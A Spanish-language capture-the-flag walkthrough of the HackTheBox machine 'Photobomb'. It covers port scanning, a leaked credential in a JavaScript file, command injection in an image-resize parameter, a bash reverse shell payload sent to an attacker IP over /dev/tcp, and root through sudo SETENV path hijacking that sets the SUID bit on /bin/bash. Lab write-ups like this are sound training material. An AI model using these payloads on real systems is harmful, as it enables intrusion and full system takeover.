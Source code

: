 ```yaml
---
title: HackTheBox - Photobomb
author: cotes
date: 2023-09-20 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'Command Injection', 'Path Hijacking']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Photobomb/logo.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Photobomb Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Information Leakage, Command Injection, Path Hijacking**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Photobomb/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Photobomb/02-versions.png)

* Si visitamos la página web nos redirigirá a **photobomb.htb**, así que lo agregamos al /etc/hosts

c. Al inspeccionar el sitio web nos encontramos con un fichero `photobomb.js` el cual contiene una credencial para el directorio **/printer**

```js
('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
```

d. Una vez entremos a este sitio, veremos que podemos redimensionar imágenes para descargarlas. Capturamos la petición con Burp Suite y empezamos a jugar con los parámetros

![](/assets/images/HTB/Easy/Photobomb/03-web.png)

![](/assets/images/HTB/Easy/Photobomb/04-web.png)

> Si manipulamos el parámetro `dimensions` obtendremos diferentes respuestas, así que podemos intuir que es vulnerable a una inyección de comandos.
{: .prompt-tip }

* Para saber si tenemos ejecución de comandos, nos pondremos en escucha de trazas ICMP y enviaremos un ping

![](/assets/images/HTB/Easy/Photobomb/05-ping.png)

![](/assets/images/HTB/Easy/Photobomb/06-tcp.png)

e. Al tener ejecución de comandos, nos entablamos una reverse shell

```bash
Payload Burp Suite: dimensions=30x20%0a`bash -c "bash -i >%26 /dev/tcp/<tun0 IP>/443 0>%261"`
----------------------------------------------------------------------------------------------
❯ nc -lvnp 443
bash-5.0$ whoami
wizard
```

### Escalada de Privilegios 💹

a. Listamos nuestros permisos a nivel de sudoers

```bash
bash-5.0$ sudo -l
User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

* Analizamos el script `/opt/cleanup.sh`

    ```bash
    bash-5.0$ cat cleanup.sh
    #!/bin/bash
    . /opt/.bashrc
    cd /home/wizard/photobomb

    # clean up log files
    if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
    then
    /bin/cat log/photobomb.log > log/photobomb.log.old
    /usr/bin/truncate -s0 log/photobomb.log
    fi

    # protect the priceless originals
    find source_images -type f -name '*.jpg' -exec chown root:root {} \;
    ```

    * Conclusiones:
        + [x] El script carga las configuraciones de `/opt/.bashrc`
        + [x] **find** se llama de forma relativa por lo que es vulnerable a un **Path Hijacking**
        + [x] El permiso `SETENV` nos permite indicar un PATH para la ejecución del script

* Vemos una configuración 'novedosa' en **/opt/.bashrc**

    ```bash
    # Jameson: caused problems with testing whether to rotate the log file                                                                                        
    enable -n [ # ]
    ```

    > `[` es un comando integrado en la bash, pero, al indicar `enable -n [` deshabilitamos esta opción. Por lo que se vuelve otro comando el cual se llama de forma relativa y también es vulnerable a **Path Hijacking**
    {: .prompt-info }

b. Conseguimos acceso como root con un Path Hijacking

```bash
bash-5.0$ echo -n 'chmod +s /bin/bash' > [
bash-5.0$ chmod +x [
bash-5.0$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
bash-5.0$ bash -p
whoami
root
```
